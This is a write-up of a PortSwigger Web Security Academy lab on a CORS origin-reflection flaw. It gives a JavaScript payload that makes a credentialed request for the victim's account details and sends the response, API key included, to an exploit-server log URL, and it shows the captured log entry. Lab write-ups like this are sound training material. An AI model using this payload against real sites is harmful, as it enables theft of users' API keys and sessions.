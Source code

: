 # [Lab: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

## Lab

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

header of the request's response to `/accountDetails` contains `Access-Control-Allow-Origin` and `Access-Control-Allow-Credentials`:

![analysis.png](./../img/lab-1-analysis.png)

## Solutions

craft a response at exploit-server:

- body:

  ```js
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://id.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
  };
  </script>
  ```

deliver exploit to victim => log:

```http
/log?key={  "username": "administrator",  "email": "",  "apikey": "DXVPpW5NHW51Kyu9ArW0eCgce3HUct9g",  "sessions": [    "KZNTrPrjnSWhV0E9nIdODHExeFaSh1XF"  ]}
```

